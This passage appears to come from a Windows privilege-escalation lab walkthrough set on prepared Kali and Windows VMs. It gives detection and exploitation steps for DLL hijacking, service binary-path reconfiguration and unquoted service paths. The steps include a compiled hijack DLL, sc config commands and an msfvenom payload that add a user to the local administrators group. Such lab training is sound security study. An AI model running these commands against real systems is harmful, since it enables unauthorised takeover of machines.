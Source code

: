 **Exploitation**

Windows VM

1. Copy ‘C:\Users\User\Desktop\Tools\Source\windows_dll.c’ to the Kali VM.

Kali VM

1. Open windows_dll.c in a text editor and replace the command used by the system() function to: cmd.exe /k net localgroup administrators user /add
2. Exit the text editor and compile the file by typing the following in the command prompt: x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll
3. Copy the generated file hijackme.dll, to the Windows VM.

Windows VM

1. Place hijackme.dll in ‘C:\Temp’.
2. Open command prompt and type: sc stop dllsvc & sc start dllsvc
3. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: net localgroup administrators

# Service Escalation: Binarypath

**Detection**

Windows VM

1. Open command prompt and type: C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wuvc daclsvc

2. Notice that the output suggests that the user “User-PC\User” has the “SERVICE_CHANGE_CONFIG” permission.

**Exploitation**

Windows VM

1. In command prompt type: sc config daclsvc binpath= "net localgroup administrators user /add"
2. In command prompt type: sc start daclsvc
3. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: net localgroup administrators

# Service Escalation- Unquoted Service Paths

**Detection**

Windows VM

1. Open command prompt and type: sc qc unquotedsvc
2. Notice that the “BINARY_PATH_NAME” field displays a path that is not confined between quotes.

**Exploitation**

Kali VM

1. Open command prompt and type: msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe
2. Copy the generated file, common.exe, to the Windows VM.
